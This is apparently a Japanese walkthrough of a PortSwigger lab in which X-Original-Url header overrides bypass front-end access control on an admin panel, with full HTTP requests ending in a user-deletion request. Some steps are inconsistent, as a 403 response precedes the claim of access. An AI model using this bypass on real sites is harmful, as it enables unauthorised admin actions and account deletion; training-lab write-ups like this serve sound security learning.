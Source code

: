# X-Original-Url によるバイパス

一部の PHP フレームワークは、X-Original-URL や X-Rewrite-URL など、元のリクエストの URL を上書きするために使用できるさまざまな非標準の HTTP ヘッダーをサポートしています。

以下のハッキングラボに対して実行します  
https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented

- 1. BurpSuite を起動し、Proxy タブからブラウザを起動
- 2. ハッキングラボにアクセスします
- 3. ハッキングラボ/admin にアクセスすると、Access Denied になります

```
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 15

"Access denied"
```

- 4. 以下のリクエストを送信すると

```
GET / HTTP/2
Host: 0ae100e2037ff49b803ac7b300b200a4.web-security-academy.net
Cookie: session=UVQYa9kBrDBajLJcraakH1L5tAp5kMGH
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Content-Length: 2
```

以下のレスポンスが得られます

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 12781

<!DOCTYPE html>
<html>
```

- 5. カスタムヘッダーで URL を上書きします

```
GET /admin HTTP/2
Host: 0a1900eb04dd07f6807cad130038007e.web-security-academy.net
Cookie: session=i7htlmZJj1tIFPuB1uBzsyu1I5F3vpXM
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a1900eb04dd07f6807cad130038007e.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
X-Original-Url: /invalid
```

以下のレスポンスが得られます

```
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 15

"Access denied"
```

- 6. 管理パネルにアクセスできるようになるので、ユーザーを消そうとすると、Access denied になるので、このリクエストを Send to Repeater します

- 7. リクエストを書き換えると、ユーザー削除リクエストが受け付けられます。
     [変更前]

```
GET /admin/delete?username=carlos HTTP/2
Host: 0a1900eb04dd07f6807cad130038007e.web-security-academy.net
Cookie: session=i7htlmZJj1tIFPuB1uBzsyu1I5F3vpXM
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a1900eb04dd07f6807cad130038007e.web-security-academy.net/?username=carlos
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

[変更後]

```
GET /?username=carlos HTTP/2
Host: 0a1900eb04dd07f6807cad130038007e.web-security-academy.net
Cookie: session=i7htlmZJj1tIFPuB1uBzsyu1I5F3vpXM
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a1900eb04dd07f6807cad130038007e.web-security-academy.net/?username=carlos
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
X-Original-Url: /admin/delete
```
